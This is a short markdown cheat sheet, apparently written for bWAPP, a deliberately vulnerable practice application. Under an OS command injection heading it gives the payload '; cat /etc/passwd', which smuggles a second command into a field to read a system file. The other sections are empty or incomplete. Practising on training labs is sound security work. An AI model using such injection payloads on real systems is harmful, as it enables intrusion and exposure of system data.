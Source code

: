 # bWAPP - Exploits

### OS Command Injection (low)
```bash
; cat /etc/passwd
```

### OS Command Injection-Blind (low)
```bash
$
```

### Cross-Site Scripting -Reflected(*) (low)


### Cross-Site Scripting -Stored(*) (low)
